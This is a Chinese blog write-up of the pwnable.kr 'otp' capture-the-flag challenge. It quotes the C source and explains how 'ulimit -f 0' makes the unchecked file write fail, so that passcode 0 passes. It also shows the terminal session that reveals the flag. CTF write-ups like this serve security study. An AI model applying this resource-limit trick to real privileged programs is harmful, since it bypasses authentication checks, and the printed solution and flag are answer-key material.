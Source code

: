 ```yaml
---
title: pwnable.kr-otp
date: 2018-02-26 10:56:31
tags: [pwnable.kr,PWN]
categories: CTF
copyright: true
---
```

# 前言
开始一直在找溢出点哈哈，最后实在没有头绪看了别人的[writeup](http://blog.csdn.net/z231288/article/details/65512472)
# 分析
先分析源码`otp.c`
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

int main(int argc, char* argv[]){
	char fname[128];
	unsigned long long otp[2];

	if(argc!=2){
		printf("usage : ./otp [passcode]\n");
		return 0;
	}

	int fd = open("/dev/urandom", O_RDONLY);
	if(fd==-1) exit(-1);

	if(read(fd, otp, 16)!=16) exit(-1);
	close(fd);

	sprintf(fname, "/tmp/%llu", otp[0]);
	FILE* fp = fopen(fname, "w");
	if(fp==NULL){ exit(-1); }
	fwrite(&otp[1], 8, 1, fp);
	fclose(fp);

	printf("OTP generated.\n");

	unsigned long long passcode=0;
	FILE* fp2 = fopen(fname, "r");
	if(fp2==NULL){ exit(-1); }
	fread(&passcode, 8, 1, fp2);
	fclose(fp2);
	
	if(strtoul(argv[1], 0, 16) == passcode){
		printf("Congratz!\n");
		system("/bin/cat flag");
	}
	else{
		printf("OTP mismatch\n");
	}

	unlink(fname);
	return 0;
}
	


```
程序从`/dev/urandow`伪随机设备里读出16个字节，前8个字节用作文件名后8字节存在该文件里，最后会从文件中读出8字节与传入的参数做比较，相等就能getflag。
开始找溢出点半天也没找到，题目也说了不能爆破所以是一点头绪也没有。后来看了别人的writeup后真是郁闷，原来题目平台还能使用`ulimit`命令，该命令的介绍百度就有很多。这里使用`ulimit -f 0`来限制进程创建文件的大小为0,这样程序在执行`fclose`的时候缓冲区的内容就无法写入文件，那么最后读出来的就是0了。
于是exp就出来了，直接在题目平台上搞
```bash
otp@ubuntu:~$ ulimit -f 0
otp@ubuntu:~$ python
Python 2.7.12 (default, Jul  1 2016, 15:12:24) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system('ls')
flag  otp  otp.c
0
>>> os.system('./otp 0')
OTP generated.
Congratz!
Darn... I always forget to check the return value of fclose() :(
0
>>> 

```
要注意的是，不能直接在shell里搞，因为这样shell直接会返回异常。
# 总结
这道题目的漏洞有内因和外因，内因就像flag中说的没有对`fclose`的返回值检查，导致可能写入文件失败。外因就是`ulimit`命令了，没有限制普通用户对它的使用。